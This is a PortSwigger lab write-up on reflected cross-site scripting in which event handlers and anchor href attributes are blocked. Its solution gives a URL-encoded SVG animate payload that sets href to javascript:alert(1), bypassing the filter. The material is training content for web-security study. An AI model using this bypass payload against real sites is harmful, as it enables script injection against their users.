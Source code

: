 

# Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) with event handlers and `href` attributes blocked

This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked..

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

`<a href="">Click me</a>`


 ####  Solution

Visit the following URL, replacing `YOUR-LAB-ID` with your lab ID:

`https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

